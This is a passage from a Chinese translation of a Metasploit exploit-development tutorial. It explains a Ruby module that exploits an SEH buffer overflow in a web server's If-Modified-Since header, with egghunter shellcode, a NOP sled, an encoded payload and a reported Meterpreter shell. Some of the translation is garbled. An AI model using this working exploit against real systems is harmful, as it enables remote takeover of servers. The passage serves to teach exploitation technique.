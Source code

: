 ```

      register_options(
      [
        Opt::RPORT(80),
      ],self.class)
    End
```

在前面的代码中，我们首先包括所需的库并提供关于利用漏洞的所需信息。接下来，我们定义了有效负载的空间，并定义了坏的字符。我们还将`Ret`和`Offset`的值设置为从 Python 漏洞中收集的值。但是，我们也将端口`80`定义为本次攻击的默认端口，将`RPORT`中的值`80`放在`register_options`下，如下代码片段所示：

```
  def exploit
    connect
    eggh = "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8ap3x\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
    shortjump = "\xeb\x22"
    bufstuff = "A" * target.offset
    bufstuff += target.ret
    bufstuff += shortjump
    bufstuff += "\x90" * 50
    bufstuff += eggh
    bufstuff += "ap3xap3x"
    bufstuff += payload.encoded
    httphead = "GET /HTTP/1.1\r\n"
    httphead << "Host: \r\n"
    httphead << "If-Modified-Since: ap3x, #{bufstuff}\r\n\r\n"
    sock.put(httphead)
    print_status("[+]Hacking The Shit Outt")
    print_status("[+]Getting MeterPreter Shell")
    handler
    disconnect
  end

end
```

现在让我们了解漏洞利用的实际工作情况。我们首先使用`connect`函数初始化连接，并在名为`bufstuff`的变量中定义数据。

在`bufstuff`变量中，我们有 72 个`A`字符，后跟返回地址和指令，用于进行上一章中讨论的跳转。接下来是 50 个 NOP，然后是鸡蛋猎人`eegh`，它需要跳转到正确的地址以指向外壳代码。接下来，我们提供标签`ap3xap3x`，然后是编码形式的有效负载。

此漏洞攻击的逻辑只是发送基于 HTTP 的恶意请求`httphead`，这将导致应用程序执行我们的有效负载。

但是，`httphead`变量定义了一个`GET`类型的内容请求，后跟`HOST`和`IF-Modified-Since`参数。该漏洞存在于对`If-Modified-Since`参数的处理中，这可能导致攻击者完全控制应用程序的流。我们在上一章中介绍了基于 SEH 的漏洞利用，如果事情不清楚，现在是返回几页的好时机。

## 正在尝试利用该漏洞

让我们将此漏洞作为`ap3x_Seh.rb`保存在`/exploit/windows`下的`http`目录中。此外，让我们尝试使用一个`resource`脚本执行该漏洞：

![Experimenting with the exploit](graphics/2223OS_04_10.jpg)

繁荣我们在目标上安装了 MeterMeter 外壳，这也消除了使用 Telnet 与目标建立连接的要求。
